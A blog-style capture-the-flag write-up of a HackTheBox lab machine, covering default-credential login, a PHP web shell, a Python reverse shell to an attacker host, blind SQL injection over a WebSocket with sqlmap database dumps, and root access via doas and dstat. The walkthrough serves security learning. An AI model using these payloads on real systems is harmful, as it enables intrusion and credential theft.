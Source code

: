 ```yaml
---
layout: post
title:  "Web Socket vulnerable to SQL injection | Privilege Escalation via Doas"
author: dz
categories: [HTB]
tags: [web, ctf, linux_infrastructure, sqli, cve]
image: assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/thumbnail.png
featured: true
---
```


A WebSocket is a communication protocol facilitating real-time, two-way interaction between a client and server via a single TCP connection. In this article, I'm gonna tackle a SQL injection vulnerability on a websocket and leveraging "**dstat**" to get root privileges.

### Introduction
SQL injection in a websocket service??? Definitely my first time to encounter such thing. Hence, I am happy to share this encounter with you guys. This is an old machine from HTB, so some of you might say "this is familiar". Anyways, let's start the journey!!

### Recon
I did an nmap scan to the target with the following command: <br> `nmap -sC -sV -p- --min-rate 300 -vv <IP>`
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc1.png">

There are 3 open ports that was identified during the scan. Port 22, 80, and 9091. From the result, I could tell that there's SSH, website, and I have no idea what kind of service is that on the last one. 

Now, I visited the website and I used ferox buster to list the available directories: <br> `feroxbuster --url <URL>`

<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc2.png">

<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc3.png">

Based on the result, there was a `/tiny` directory, and upon visiting it, a login page appeared.
I tried performing SQL injection and bruteforce attacks, but it failed. So I went to have a quickie with google and I found out that Tiny File has a default credentials.

<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc4.png">

I tried the admin credentials and it worked. I was able to logged in! Sweeeeeet~
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc5.png">

Since it was a file manager, I bet I could upload something in it. You know, juicy stuff. Fortunately, there was one directory in which I can upload to. The rest were not writable. I upoaded a php file with the following code in it so i could execute commands to the server:
``` php
<?php system($_REQUEST['cmd']); ?>
```
I found the directory where the file was uploaded and executed a "`whoami`" command to check if it was working: <br> => `/tiny/uploads/php_shell.php?cmd=whoami` <=

It returned "`www-data`". Hence, it worked! That was sweeeeeeeet~ coooool. Now, at that point, I have executed a python command to gain a reverse shell from my machine.
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<YOUR PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
During that time, I had to reupload the php file. I figured that there was only a specific amount of time the file stays there. I was thinking maybe there was a cron tab that deletes any files uploaded in that directory... or something like that. Anyways, moving on. I got the reverse shell.
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc6.png">

I already got a reverse shell, but I don't feel powerful enough. Upon doing some enumeration, which kinda took some time, I found out that there was a subdomain. I checked the "`/etc/hosts`" for that. I added the subdomain to my host file and browsed it to see if there were any juicy~licious things I could find.

I found a sign-up and login pages. I registered an account and logged into it.
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc7.png">

I had no idea what to do with this, so I tried putting the ticket ID. Then it returned "**Ticket Exists**". <br>
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc8.png">

Then I put arbitrary number and it returned "**Ticket Doesn't Exists**"
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc9.png">

So I thought, maybe this is vulnerable to SQL injection. I tried some payloads to verity if it is really vulnerable to SQL injection.
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc10.png">

AAAAAANNNNNNDDDDDDD IT IS!!!! Sweeeeeeeeeeet~ upon putting "**OR 1=1**", the message changed from "**Ticket Doesn't Exists**" into "**Ticket Exists**". <br> However, it seemed that it was a Blind SQL injection because there were no output to any of the payload I tried. hence, I used a tool called "**sqlmap**" to help me with this journey. 

I intercepted the request through burp and I found out that this was running on a web socket on port 9091. So I crafted my payload into this: <br> `sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch`

After I executed the command, I got the list of the database:
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc11.png">

The "`soccer_db`" looked really juicy. I tried digging further with the following command: <br> `sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump --batch`

<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc12.png">

I got some credentials and I bet this could be used in authenticating through SSH.

<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc13.png">

Aaaaannnnddddd it did!!! Swweeeeeeeeeeeeeeet~~

### Privilege Escalation
Next phase after that was to escalate my privileges to root access. Instead of using linpeas, I tried doing it manually first. Took me a while though, but eventually I got it. <br>
First, I ran the command:<br> `find / -type f -perm -4000 2>/dev/null`
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc14.png">

First on the result was "`/usr/local/bin/doas`", so I did a quickie with google again, and I found out that "`doas`" executes arbitrary commands as another user. It is kinda similar to sudo command. It seemed that the config file "`doas.conf`" is juicy~licious when it comes to privilege escalation. (<a href="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/" target="_blank">*click to read more*</a>)

Upon checking the config file, I found this:
<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc15.png">

Based on the contents of this config file, we can run "`/usr/bin/dstat`" as root with the use of doas. But what the heck is **dstat**??? and what on earth can I do with it. Soooo, I went to do some quickie with google...again. According to GTFOBins, I could leverage **dstat** into performing a privilege escalation. (<a href="https://gtfobins.github.io/gtfobins/dstat/" target="_blank">*click to read more*</a>)

<img src="../../blog/assets/images/018d9c4c-69c0-7121-8e2f-9bb684dbd2db/sc16.png">

And I was able to escalate my privilege to root. Swwweeeeeeeeeeett~~~

That's all for now!